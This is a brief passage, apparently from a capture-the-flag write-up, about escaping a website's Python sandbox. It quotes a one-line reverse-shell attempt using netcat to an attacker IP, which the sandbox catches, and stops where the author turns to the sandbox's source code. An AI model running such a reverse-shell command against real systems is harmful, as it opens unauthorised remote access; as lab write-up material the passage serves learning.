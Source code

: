 I tried to spawn a reverse shell using :

```python
__import__('os').system('nc -e /bin/sh 10.0.2.15 4444')
```
But the website detected my malicious code
And gave me this message :  `H4CK3R AL3R7!!! Malicious program detected by the sandbox`

![image]( /assets/img/pylington/4.PNG)

We are lucky because the developer provide us the code of the sandbox
